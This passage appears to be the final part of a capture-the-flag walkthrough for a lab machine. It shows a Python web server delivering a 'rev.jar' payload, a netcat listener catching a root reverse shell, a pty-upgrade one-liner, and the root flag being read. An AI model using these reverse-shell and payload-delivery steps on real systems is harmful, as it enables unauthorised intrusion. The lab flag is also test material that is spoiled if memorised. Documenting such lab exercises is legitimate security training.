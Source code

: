 <br>

```bash
:~/VulnNetDotJAR# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.201.69.245 - - [12/Aug/2025 19:01:37] "GET /rev.jar HTTP/1.1" 200 -

```



```bash
:~/VulnNetDotJAR# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.201.69.245 57174
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ip-10-201-69-245:/dev/shm# cat /root/root.txt
cat /root/root.txt
THM{464c29e3ffae05c2e67e6f0c5064759c}
root@ip-10-201-69-245:/dev/shm# 
```

<br>
<br>




<img width="1911" height="895" alt="image" src="https://github.com/user-attachments/assets/ad1d913c-01e8-47e9-a5a2-68d2a3804f3a" />

<img width="1912" height="890" alt="image" src="https://github.com/user-attachments/assets/adb1374b-f9eb-41b3-807d-c30239a9778d" />



